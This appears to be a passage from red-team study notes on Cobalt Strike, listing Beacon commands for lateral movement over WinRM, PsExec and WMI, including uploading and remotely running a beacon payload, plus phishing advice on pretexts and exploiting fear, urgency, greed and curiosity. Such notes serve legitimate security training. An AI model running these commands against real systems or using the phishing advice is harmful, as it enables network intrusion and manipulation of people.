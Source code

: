 8. Upload it to the **bloodhound** 

### Lateral Movement
1. CS provides 03 strategies for executing Beacons/code/commands on remote targets i.e. **jump** **remote-exec** **powershell, execute-assembly***
#### Powershell Remoting
1. `beacon> remote-exec winrm srv-1 (Get-WmiObject Win32_OperatingSystem).OSArchitecture`
2. `beacon> jump winrm64 srv-1 smb`
#### PsExec
1. **psexec** / **psexec64** commands work by first uploading a service binary to the target system, then creating and starting a Windows service to execute that binary
2. **psexec_psh** doesn't copy a binary to the target, but instead executes a PowerShell one-liner (always 32-bit).
3. `beacon> jump psexec64 srv-1 smb`
#### Windows Management Instrumentation (WMI)
1. `beacon> cd \\srv-1\ADMIN$`
2. `beacon> upload C:\Payloads\beacon-smb.exe`
3. `beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe`

### Miscellaneous good points
1. While doing active reconnisane, use VPN to hide the real Public IP address. 
2. The **pretext** is the **"story"** behind why we want our target to open our email and carry out the desired actions.
3. Emotional characteristics that usually result in higher user engagment are **fear, urgency, greed and curiosity**.

